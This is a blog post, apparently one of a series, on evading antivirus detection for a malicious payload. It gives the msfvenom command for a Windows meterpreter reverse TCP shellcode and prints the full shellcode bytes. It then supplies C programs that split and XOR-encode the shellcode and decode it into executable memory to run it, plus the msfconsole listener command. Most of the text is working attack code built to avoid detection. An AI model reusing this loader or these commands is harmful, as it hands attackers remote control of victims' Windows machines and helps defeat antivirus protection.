









Ahhh! After our defeat in the last battle of making a FUD payload, we meet here again (Pss. We still reduced the detection from 13 to 7).

If you haven't read those articles, go through it at [Antivirus Evasion - XOR Encryption](https://mandarnaik016.github.io/2024-03-24-antivirus-evasion-using-xor-encryption/).

Unlike last time, we were using a shellcode that runs **calc.exe** after XOR encryption; this time things are getting pretty serious. We will be using a reverse TCP shellcode and the same encoding scheme in a different way.

The plan is below. Go through it.

This time we will use the divide and XOR methods. We will divide the shell code into six equal parts and XOR each part with a different key. Then we will perform the reverse operation, i.e., we will perform the XOR operation on the XORed parts with their respective keys.

Generate a shellcode using the below command.
~~~
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.6 LPORT=6210 -b "\x00\x04\xA0" -f c -e x64/xor -i 6 -o "shell.c"
~~~

We are using a encoder here with 6 iterations. Feel free to customize it according to your needs.

The below template is used to perform divide and XOR operation.

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void divideAndXOR(char buf[], int buflen, int keys[], int numKeys, char *parts[]) {
    int partSize = buflen / numKeys;
    for (int i = 0; i < numKeys; i++) {
        for (int j = 0; j < partSize; j++) {
            parts[i][j] = buf[i * partSize + j] ^ keys[i];
        }
        parts[i][partSize] = '\0'; // Null-terminate the string
    }
}

int main() {
    char buf[] = "\x48\x31\xc9\x48\x81\xe9\xa7\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x39\xa6\xe5\x28\x42\xff\x8f\xad\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x71\x97\x2c\x60\xc3\x16\x23\x52\xc6\x59\xad\xa5\x47\x10\x70\x52\xc6\xee\x5e\xe4\xcd\x0c\x2e\xd4\xc5\xe5\x34\x60\x73\xa7\xa8\xe5\x14\x5e\x1a\xd7\xbd\x1d\x7b\x29\x87\x9c\x0c\xd0\x57\x0d\xa1\x9e\x49\x1d\xc9\x54\x51\x43\xa1\x9e\xfe\xee\x6f\x94\x48\x61\xd5\xc5\xf5\x69\x0c\x60\xe6\x9b\x16\x4c\x4e\xaa\xbb\xae\x5c\x48\x3d\x95\x89\xc0\x4e\x1c\x4b\x7f\x8a\x5b\x08\x05\xca\x1a\x02\x7f\x8a\xec\xfb\x1a\x72\x96\x17\xef\xc6\x8a\xd0\xc0\xfe\xad\xda\xc8\x58\x5c\xbf\x77\x30\x17\x09\x5a\xf9\x0e\xe2\x66\x95\x60\x92\xed\x37\x8f\x27\xe2\x93\x24\x92\xed\x80\x7c\x3a\x17\x39\xec\x76\x0c\xe4\xd6\xe2\xd6\x24\xfc\x25\x3f\x30\x38\x55\x18\x9e\x2f\xb5\xd3\x44\xb8\x30\x10\x90\x35\x02\x1d\xc5\x7d\xb4\x16\xaf\x35\x02\xaa\x36\x07\x6a\x32\xc5\xe8\x78\xa9\x0f\xb8\x80\xa1\x77\x82\xd0\x1a\x72\x0f\x4e\x1b\xa4\xc1\x6e\xaa\xfc\x22\xdc\x7e\xd2\x3d\x26\x68\x49\x93\x64\xe0\x9a\x0c\xf4\x78\x4e\xb7\x7c\x39\x80\x5d\x6e\xa2\x4a\xca\x7c\x39\x80\x1d\x6e\xa2\x6a\x82\x79\x83\x1b\x75\x29\x9e\x52\x98\x7c\x83\x12\x91\x1a\x48\x64\xd0\x18\x92\x93\xfc\xef\x24\x59\xd3\xf5\x50\x3f\x6f\x67\x78\x50\x59\x66\x92\x59\x7f\x1a\x61\x19\x02\x52\x33\xaa\x25\x2d\x2b\x17\x57\x46\xb2\xd2\x3d\xad\xa9\x90\xd2\x34\xb2\x9a\xb8\xe6\x5d\x7f\x9a\x35\x62\x59\x75\x3e\x6d\x93\x92\x14\xe2\x9b\x3c\xf6\xca\x4e\x9a\xcb\x7b\x93\xb6\x12\xa1\x55\xe3\xfd\xfa\xd3\xeb\x6e\x18\xd8\x93\xf5\x7b\xdf\x91\x67\x28\xd9\xea\xd4\xc7\x23\x71\x25\x65\x3c\xda\x71\x8b\x03\x48\xfe\x71\x5c\x59\x74\x96\x9b\x3c\xf6\x4f\x59\x59\x38\xfa\x96\xb6\x66\x35\x51\xd3\xe4\xf3\x59\x39\xae\x61\x19\x02\x75\xea\x93\x65\x78\x70\x42\x93\x6c\xf3\x8b\x7c\x7c\x61\x9b\x3e\x14\xf3\x80\xc2\xc6\x71\x59\x8b\x6e\xfa\x59\x2f\xcf\x62\xe7\x2d\xcb\xef\x9b\x83\x51\x5a\x2a\x8d\x07\x80\xd2\x3d\x67\x7f\x51\x5b\xd2\xfa\x53\xd1\x86\x28\x18\xd2\x7d\x3b\x37\x74\x9a\x2b\x18\xca\x76\x72\x7a\x3c\x20\x68\x4c\x9b\xbd\x56\x9e\xb4\xd7\x68\xa2\x9e\x43\x94\xd5\xc2\xf3\x65\x91\x38\x5c\xb3\xd3\x3d\x26\x70\x59\x68\x1d\x32\xb9\x3d\xd9\xfc\x72\xd8\x75\xec\x82\x6d\x6b\x18\xd1\x9f\x05\x72\x9a\xc2\xe6\x61\x91\x10\x7c\x4d\x12\x75\xaf\xe8\x59\x68\xde\xbd\x0d\xdd\xd9\xfc\x50\x5b\xf3\xd8\xc2\x7c\x7e\x65\x91\x30\x7c\x3b\x2b\x7c\x9c\xb0\xbd\xa6\x55\x4d\x07\xb8\xe6\x5d\x12\x9b\xcb\x7c\xa7\xd8\xce\xba\x18\xd2\x34\xfa\x51\xd1\x36\x61\x91\x30\x79\x83\x1b\x57\x22\x68\x40\x9a\xbd\x4b\x93\x87\x24\xf0\xd0\x8d\xcb\x67\x51\xc5\x26\x57\x4d\x9a\xb7\x76\xf2\x63\xaf\xdf\x72\x92\x75\xeb\xba\x3d\x36\x29\x18\x93\x6c\xfa\x5b\xcf\x6e\x18\xd1\x93\x8e\xea\x76\x6e\xc3\xd6\xcd\x9a\xbd\x71\x9b\xb4\xe1\x64\x29\x1b\x7d\x3b\x22\x75\xaf\xf3\x50\x5b\xcd\xf3\x68\x3f\xff\xe1\x47\x2d\xe1\x31\x2a\x3d\x5b\x01\x40\x93\x63\xeb\xba\x3d\x66\x29\x18\x93\x6c\xd8\xd2\x67\x67\x93\x13\xfd\x3b\x82\x2d\xe8\x71\x70\x59\x68\x41\xdc\x9f\x5c\xd9\xfc\x51\x2d\xfa\x5b\xee\xc2\xd9\xd6\x50\xd3\xf7\xfa\xfb\xfb\x6e\xac\xee\xa7\x80\xf3\x2d\xda\x7e\x43\x18\x8b\x7d\x75\x10\xcd\x93\x8b\x4e\x2d\xe1\xb2\xd2\xca\x6d\x80\x5e\xad"; // Replace shellcode
    int keys[] = {0x0C, 0x04, 0x08, 0x0B, 0x01, 0x09}; // keys For XOR
    int buflen = strlen(buf);
    printf("Buf Length: %d\n", buflen);
    int numKeys = sizeof(keys) / sizeof(keys[0]);
    char *parts[numKeys];

    for (int i = 0; i < numKeys; i++) {
        parts[i] = malloc((buflen / numKeys) + 1); // +1 for null-terminator
    }

    divideAndXOR(buf, buflen, keys, numKeys, parts);

    for (int i = 0; i < numKeys; i++) {
        printf("\"", i + 1);
        for (int j = 0; j < buflen / numKeys; j++) {
            printf("\\x%02x", (unsigned char)parts[i][j]);
        }
        printf("\",\n");
    }

    for (int i = 0; i < numKeys; i++) {
        free(parts[i]);
    }

    return 0;
}
~~~

{: .box-note}
**NOTE:** Replace only the shellcode as single line do not include unnecessary comma and new lines.

After we compile the above C lang code we get respective XORed parts along with buf length.

Replace the buf length and XORed parts in below template

~~~c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

void inverseXOR(char *parts[], int buflen, int keys[], int numKeys, char *result)
{
    int partSize = buflen / numKeys;
    for (int i = 0; i < numKeys; i++)
    {
        for (int j = 0; j < partSize; j++)
        {
            result[i * partSize + j] = parts[i][j] ^ keys[i];
        }
    }
    result[buflen] = '\0'; // Null-terminate the string
}

int main()
{
    char *parts[] = {
        "\x44\x3d\xc5\x44\x8d\xe5\xab\xf3\xf3\xf3\x44\x81\x09\xe3\xf3\xf3\xf3\x44\xb7\x35\xaa\xe9\x24\x4e\xf3\x83\xa1\x44\x3d\x54\x2b\x44\x21\xf4\xf3\xf3\xf3\xee\xf8\x7d\x9b\x20\x6c\xcf\x1a\x2f\x5e\xca\x55\xa1\xa9\x4b\x1c\x7c\x5e\xca\xe2\x52\xe8\xc1\x00\x22\xd8\xc9\xe9\x38\x6c\x7f\xab\xa4\xe9\x18\x52\x16\xdb\xb1\x11\x77\x25\x8b\x90\x00\xdc\x5b\x01\xad\x92\x45\x11\xc5\x58\x5d\x4f\xad\x92\xf2\xe2\x63\x98\x44\x6d\xd9\xc9\xf9\x65\x00\x6c\xea\x97\x1a\x40\x42\xa6\xb7\xa2\x50\x44\x31\x99\x85\xcc\x42\x10\x47\x73",
        "\x8e\x5f\x0c\x01\xce\x1e\x06\x7b\x8e\xe8\xff\x1e\x76\x92\x13\xeb\xc2\x8e\xd4\xc4\xfa\xa9\xde\xcc\x5c\x58\xbb\x73\x34\x13\x0d\x5e\xfd\x0a\xe6\x62\x91\x64\x96\xe9\x33\x8b\x23\xe6\x97\x20\x96\xe9\x84\x78\x3e\x13\x3d\xe8\x72\x08\xe0\xd2\xe6\xd2\x20\xf8\x21\x3b\x34\x3c\x51\x1c\x9a\x2b\xb1\xd7\x40\xbc\x34\x14\x94\x31\x06\x19\xc1\x79\xb0\x12\xab\x31\x06\xae\x32\x03\x6e\x36\xc1\xec\x7c\xad\x0b\xbc\x84\xa5\x73\x86\xd4\x1e\x76\x0b\x4a\x1f\xa0\xc5\x6a\xae\xf8\x26\xd8\x7a\xd6\x39\x22\x6c\x4d\x97\x60\xe4\x9e",
        "\x04\xfc\x70\x46\xbf\x74\x31\x88\x55\x66\xaa\x42\xc2\x74\x31\x88\x15\x66\xaa\x62\x8a\x71\x8b\x13\x7d\x21\x96\x5a\x90\x74\x8b\x1a\x99\x12\x40\x6c\xd8\x10\x9a\x9b\xf4\xe7\x2c\x51\xdb\xfd\x58\x37\x67\x6f\x70\x58\x51\x6e\x9a\x51\x77\x12\x69\x11\x0a\x5a\x3b\xa2\x2d\x25\x23\x1f\x5f\x4e\xba\xda\x35\xa5\xa1\x98\xda\x3c\xba\x92\xb0\xee\x55\x77\x92\x3d\x6a\x51\x7d\x36\x65\x9b\x9a\x1c\xea\x93\x34\xfe\xc2\x46\x92\xc3\x73\x9b\xbe\x1a\xa9\x5d\xeb\xf5\xf2\xdb\xe3\x66\x10\xd0\x9b\xfd\x73\xd7\x99\x6f\x20\xd1\xe2",
        "\xdf\xcc\x28\x7a\x2e\x6e\x37\xd1\x7a\x80\x08\x43\xf5\x7a\x57\x52\x7f\x9d\x90\x37\xfd\x44\x52\x52\x33\xf1\x9d\xbd\x6d\x3e\x5a\xd8\xef\xf8\x52\x32\xa5\x6a\x12\x09\x7e\xe1\x98\x6e\x73\x7b\x49\x98\x67\xf8\x80\x77\x77\x6a\x90\x35\x1f\xf8\x8b\xc9\xcd\x7a\x52\x80\x65\xf1\x52\x24\xc4\x69\xec\x26\xc0\xe4\x90\x88\x5a\x51\x21\x86\x0c\x8b\xd9\x36\x6c\x74\x5a\x50\xd9\xf1\x58\xda\x8d\x23\x13\xd9\x76\x30\x3c\x7f\x91\x20\x13\xc1\x7d\x79\x71\x37\x2b\x63\x47\x90\xb6\x5d\x95\xbf\xdc\x63\xa9\x95\x48\x9f\xde\xc9\xf8",
        "\x64\x90\x39\x5d\xb2\xd2\x3c\x27\x71\x58\x69\x1c\x33\xb8\x3c\xd8\xfd\x73\xd9\x74\xed\x83\x6c\x6a\x19\xd0\x9e\x04\x73\x9b\xc3\xe7\x60\x90\x11\x7d\x4c\x13\x74\xae\xe9\x58\x69\xdf\xbc\x0c\xdc\xd8\xfd\x51\x5a\xf2\xd9\xc3\x7d\x7f\x64\x90\x31\x7d\x3a\x2a\x7d\x9d\xb1\xbc\xa7\x54\x4c\x06\xb9\xe7\x5c\x13\x9a\xca\x7d\xa6\xd9\xcf\xbb\x19\xd3\x35\xfb\x50\xd0\x37\x60\x90\x31\x78\x82\x1a\x56\x23\x69\x41\x9b\xbc\x4a\x92\x86\x25\xf1\xd1\x8c\xca\x66\x50\xc4\x27\x56\x4c\x9b\xb6\x77\xf3\x62\xae\xde\x73\x93\x74\xea",
        "\xb3\x34\x3f\x20\x11\x9a\x65\xf3\x52\xc6\x67\x11\xd8\x9a\x87\xe3\x7f\x67\xca\xdf\xc4\x93\xb4\x78\x92\xbd\xe8\x6d\x20\x12\x74\x32\x2b\x7c\xa6\xfa\x59\x52\xc4\xfa\x61\x36\xf6\xe8\x4e\x24\xe8\x38\x23\x34\x52\x08\x49\x9a\x6a\xe2\xb3\x34\x6f\x20\x11\x9a\x65\xd1\xdb\x6e\x6e\x9a\x1a\xf4\x32\x8b\x24\xe1\x78\x79\x50\x61\x48\xd5\x96\x55\xd0\xf5\x58\x24\xf3\x52\xe7\xcb\xd0\xdf\x59\xda\xfe\xf3\xf2\xf2\x67\xa5\xe7\xae\x89\xfa\x24\xd3\x77\x4a\x11\x82\x74\x7c\x19\xc4\x9a\x82\x47\x24\xe8\xbb\xdb\xc3\x64\x89\x57"}; // Replace XORed Parts In This Array
    int buflen = 751; // Replace Buf Length
    int keys[] = {0x0C, 0x04, 0x08, 0x0B, 0x01, 0x09}; // Same Keys
    int numKeys = sizeof(keys) / sizeof(keys[0]);
    char result[buflen + 1]; // +1 for null-terminator

    inverseXOR(parts, buflen, keys, numKeys, result);

    void *exec = VirtualAlloc(0, sizeof result, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, result, sizeof result);
    ((void (*)())exec)();

    return 0;
}
~~~

After compiling the program lets check the result

Open a listener using below command
~~~
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 192.168.1.6; set lport 6210; exploit"
~~~

Before execution

After execution

Lets check some commads

But sadly we were only able to reduce the detection by only 1 check at [kleenscan](https://kleenscan.com/scan_result/bc961af001b60d00f1322ffe4212351febc59cf07a475fdb09b5d3761d07f3a5).

Hope for the best and we will come back stronger with an inevitable method to make payload FUD.

